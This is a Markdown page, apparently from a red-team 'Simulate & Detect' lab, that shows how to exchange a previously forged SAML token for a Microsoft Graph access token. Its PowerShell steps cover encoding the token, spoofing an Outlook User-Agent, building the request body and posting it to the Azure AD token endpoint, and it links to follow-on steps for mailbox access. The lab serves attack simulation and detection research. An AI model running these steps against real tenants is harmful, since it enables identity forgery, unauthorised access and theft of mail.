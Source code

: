 # Get an Access Token via SAML bearer Assertion Flow

An access token is a security token that's issued by an [authorization server](https://docs.microsoft.com/en-gb/azure/active-directory/develop/developer-glossary#authorization-server) as part of an OAuth 2.0 flow. It contains information about the user and the resource for which the token is intended. The information can be used to access web APIs and other protected resources.

The Microsoft identity platform supports the [OAuth 2.0 SAML bearer assertion flow](https://docs.microsoft.com/en-us/azure/active-directory/develop/v2-saml-bearer-assertion) which allows you to request an OAuth access token using a SAML assertion when a client needs to use an existing trust relationship. This type of flow supports users authenticating with identity providers such as Active Directory Federation Services (ADFS) federated to Azure Active Directory. The SAML assertion obtained from ADFS can be used in an OAuth flow to authenticate the user.

In this document, we are going to use an existing SAML token to exchange it for an access token from Azure AD.

## Simulate & Detect
1.	[Encode SAML token](#encode-saml-token)
2.	[Create HTTP request headers](#create-http-request-headers)
3.	[Create HTTP request body](#create-http-request-body)
4.	[Send HTTP POST to Microsoft identity platform token endpoint](#send-http-post-to-microsoft-identity-platform-token-endpoint)

## Preconditions
* A trust relationship between the authorization server/environment (Microsoft 365) and the identity provider, or issuer of the SAML 2.0 bearer assertion (AD FS server)
* Endpoint: ADFS01
    * Even when this step would happen outside of the organization, we can use the same PowerShell session where we [signed a new SAML token](../credential-access/signSAMLToken.md) to go through the simulation steps.
    * A valid SAML bearer token
        * Use the output from that previous step as the variable `$SamlToken`.

## Encode SAML token

1.  Take a SAML token and base64 encode it to use it in an HTTP request.

![](../../resources/images/simulate_detect/persistence/getAccessTokenSAMLBearerAssertionFlow/2021-05-19_01_saml_token.png)
 
2.  Open a PowerShell console and run the following command to base64 encode it:

```PowerShell
$encodedSamlToken = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($SamlToken))
```

![](../../resources/images/simulate_detect/persistence/getAccessTokenSAMLBearerAssertionFlow/2021-05-19_02_token_encoded.png)

## Create HTTP Request Headers

3.  Create an HTTP header. You can, for example, set the user Agent to look like `Microsoft Outlook` or other known applications.

```PowerShell
$headers = @{
    “Content-Type” = “application/x-www-form-urlencoded”
    "User-Agent" = "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; WOW64; Trident/7.0; .NET4.0C; .NET4.0E; Tablet PC 2.0; Microsoft Outlook 16.0.4266)"
}
```

![](../../resources/images/simulate_detect/persistence/getAccessTokenSAMLBearerAssertionFlow/2021-05-19_03_http_header.png)

## Create HTTP Request Body

4.  Create an HTTP request body and set the specific resource you want to get an access token for.

### Azure Active Directory PowerShell Application (Client)

We can request an access token for the Microsoft Graph leveraging the public Azure Active Directory PowerShell application (`1b730954-1685-4b74-9bfd-dac224a7b894`).

* client_id (Required):  Application (Client) ID for the app we would use to access other resources
* grant_type (Required): The type of token request.
* assertion (Required): The base64 encoded SAML token.
* scope (Required): List of scopes for the token request

```PowerShell
$ClientID = “1b730954-1685-4b74-9bfd-dac224a7b894”

$body = @{
    "client_id"=$ClientId
    "grant_type"="urn:ietf:params:oauth:grant-type:saml1_1-bearer"
    "assertion"=$encodedSamlToken
    "scope"="openid https://graph.microsoft.com/.default"
}
```

![](../../resources/images/simulate_detect/persistence/getAccessTokenSAMLBearerAssertionFlow/2021-05-19_04_http_body_aad_ps_app.png)

### Custom Application (Client ID & Credentials Needed)

We can also request an access token for the Microsoft Graph leveraging an application we registered ourselves. For this example, we need to use the application credentials along with the `client_id`.

* client_id (Required):  Application (Client) ID for the app we would use to access other resources
* grant_type (Required): The type of token request.
* assertion (Required): The base64 encoded SAML token.
* scope (Required): List of scopes for the token request

We can verify that we have information about the application (client) and its credentials. 
 
![](../../resources/images/simulate_detect/persistence/getAccessTokenSAMLBearerAssertionFlow/2021-05-19_05_veriy_requirements.png)

```PowerShell
$body = @{
    client_id = $applicationId
    client_secret = $secret
    scope = 'https://graph.microsoft.com/.default'
    assertion = $encodedSamlToken
    grant_type = 'urn:ietf:params:oauth:grant-type:saml1_1-bearer'
}
$body
```

![](../../resources/images/simulate_detect/persistence/getAccessTokenSAMLBearerAssertionFlow/2021-05-19_06_http_body_custom_app.png)

## Send HTTP POST to Microsoft identity platform token endpoint

5.  For this exercise, we send the access token request to the OAuth 2.0 (v2) endpoint: ` https://login.microsoftonline.com/$TenantId/oauth2/v2.0/token`

```PowerShell
$TenantId = '14daf1e6-d424-4b0b-843c-8202e580f814'
$TokenUrl = “https://login.microsoftonline.com/$TenantId/oauth2/v2.0/token”
$params = @{
    "Method"=“Post”
    "Uri"=$TokenUrl
    "Body"=$body
    "Headers"=$headers
}
$results = $(Invoke-RestMethod @params)
```

### Azure Active Directory PowerShell Application (Client)

![](../../resources/images/simulate_detect/persistence/getAccessTokenSAMLBearerAssertionFlow/2021-05-19_07_http_post_aad_ps_app.png)

### Custom Application
 
![](../../resources/images/simulate_detect/persistence/getAccessTokenSAMLBearerAssertionFlow/2021-05-19_08_http_post_custom_app.png)

6. Finally, you can get the access token from the results.

```PowerShell
$MSGraphAccessToken = $results.access_token
```

![](../../resources/images/simulate_detect/persistence/getAccessTokenSAMLBearerAssertionFlow/2021-05-19_09_mgraph_token.png)

You can inspect your access token here: [jwt.ms: Welcome!](https://jwt.ms/)

## Output

Use the variable `$MSGraphAccessToken` that contains the access token for the `Azure Directory PowerShell application` for the following steps:

* [Add credentials to Azure AD application](addCredentialsToApplication.md).
* [Grant delegated permissions to Azure AD application](grantDelegatedPermissionsToApplication.md).

Use the variable `$MSGraphAccessToken` that contains the access token for an application where we used the application's credentials to get a token for the following steps:

* [Mail access via an application with delegated permissions](../collection/mailAccessDelegatedPermissions.md)

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)